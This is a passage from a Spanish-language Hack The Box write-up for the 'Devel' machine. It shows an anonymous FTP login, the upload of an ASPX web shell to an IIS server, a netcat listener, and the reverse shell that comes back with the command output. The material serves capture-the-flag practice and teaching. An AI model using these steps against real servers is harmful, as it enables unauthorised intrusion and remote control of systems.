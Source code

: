 Ahora entramos al **servicio FTP**, subimos el archivo **.aspx** y comprobamos que este dentro:
```batch
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:berserkwings): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put IIS_Shell.aspx 
local: IIS_Shell.aspx remote: IIS_Shell.aspx
229 Entering Extended Passive Mode (|||49166|)
150 Opening ASCII mode data connection.
100% |************************************************************************************************|  2775       39.49 MiB/s    --:-- ETA
226 Transfer complete.
2775 bytes sent in 00:00 (20.57 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49167|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-28-23  11:08PM                 2775 IIS_Shell.aspx
03-28-23  10:12PM                    6 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> exit
221 Goodbye.
```
Muy bien, ya está dentro. 

Ahora, simplemtene activamos una **netcat**:
```bash
nc -nvlp 443                                    
listening on [any] 443 ...
```

Y, por último, ejecutamos la Reverse Shell desde la página web:

<p align="center">
<img src="/assets/images/htb-writeup-devel/Captura4.png">
</p>

Listo, estamos dentro:
```bash
nc -nvlp 443                                    
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.5] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
Muy bien, ahora probemos con el archivo preconfigurado ASPX de Kali que nos da una **CMD** en la página web.
